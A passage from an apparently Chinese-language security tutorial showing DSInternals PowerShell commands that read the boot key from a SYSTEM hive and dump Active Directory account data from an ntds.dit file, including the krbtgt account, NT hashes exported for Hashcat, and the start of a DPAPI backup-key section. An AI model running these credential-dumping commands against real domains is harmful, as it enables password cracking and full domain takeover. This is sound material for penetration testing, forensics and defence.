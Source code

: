 2、获取所有账户信息
----------

```
$key = Get-BootKey -SystemHivePath 'C:\Users\a\Desktop\a\SYSTEM'

Get-ADDBAccount -All -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key 

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/a426718d11cdea15ddcd766348ece719dd272fa7.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/3ec58515542b375dae0c1684a38075b6004133a1.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/5d14ad2776e5c797625f6784e7f7f73e93ec3bb5.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/56f2dd63822c256363cab04c3d274b6976d5dc23.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/da3ddf81b2c18d76b3be719162c626479134171f.jpg)

3、获取指定账户信息
----------

```
$key = Get-BootKey -SystemHivePath 'C:\Users\a\Desktop\a\SYSTEM'

Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=test,DC=local'  -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f24b8d3c7ff14bf806e5c8e0ccb2d1f143e50dd9.jpg)

4、导出支持Hashcat的NT hash
---------------------

```
Get-ADDBAccount -All -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key | Format-Custom -View HashcatNT | Out-File hashes.txt

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/87fab038e7b5c0744d9891724ec05a8c97620438.jpg)

5、导出DPAPI backup keys
---------------------

**（1）**获得BootKey
